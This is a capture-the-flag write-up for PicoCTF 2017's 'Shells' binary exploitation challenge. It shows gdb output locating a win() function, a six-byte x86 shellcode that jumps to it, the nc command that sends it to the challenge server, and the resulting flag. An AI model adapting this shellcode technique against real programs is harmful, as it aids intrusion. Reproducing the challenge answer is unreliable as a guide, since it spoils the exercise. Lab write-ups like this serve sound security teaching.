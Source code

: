 # PicoCTF 2017- Level 2 - Binary Exploitation 2

**Title:** Shells  
**Category:** Binary Exploitation  
**Points:** 70  
**Description:**

>How much can a couple bytes do? Use [shells](shells)! [Source](shells.c). Connect on shell2017.picoctf.com:17533.  

**Hint:**

>Read about basic shellcode  
>You don't need a full shell (yet...), just enough to get the flag  

## Solution

This problem is more complex than the previous one. By openning the source file we see that we can only submit 10 bytes of data, which is not enough to contain a shell.  
But, looking at the source we can also see the function:
```C
void win(){  
    system("/bin/cat ./flag.txt");  
}  
```

So our job here is to create code to call the function `win()` that will give us the flag. First, let's start gdb:
> $ gdb  
> (gdb) file ./shells  

Now that our programs is loaded in gdb, let's find the address of the `win()` function:

>(gdb) info functions  
>All defined functions:  
>  
>Non-debugging symbols:  
>0x08048378  _init  
>0x080483b0  read@plt  
>0x080483c0  printf@plt  
>0x080483d0  fflush@plt  
>0x080483e0  puts@plt  
>0x080483f0  system@plt  
>0x08048400  __gmon_start__@plt  
>0x08048410  exit@plt  
>0x08048420  mmap@plt  
>0x08048430  __libc_start_main@plt  
>0x08048440  _start  
>0x08048470  __x86.get_pc_thunk.bx  
>0x08048480  deregister_tm_clones  
>0x080484b0  register_tm_clones  
>0x080484f0  __do_global_dtors_aux  
>0x08048510  frame_dummy  
>0x08048540  win  
>0x08048560  vuln  
>0x08048610  main  
>0x08048670  __libc_csu_init  
>[...]  

We can see that the win function is at the address `0x08048540`. So our shell code will look like this:
> \x68               |  push  
> \x40\x85\x04\x08   |  win()  
> \xc3               |  ret  

Now let's create the shellcode:  
>$ python -c "print('\x68\x40\x85\x04\x08\xc3')" > shellcode  
>$ cat shellcode - | nc shell2017.picoctf.com 17533
>My mother told me to never accept things from strangers  
>How bad could running a couple bytes be though?  
>Give me 10 bytes:  
>4350d27b024f8597f10b98f164f0fc43  

Thus the flag for this one is `4350d27b024f8597f10b98f164f0fc43`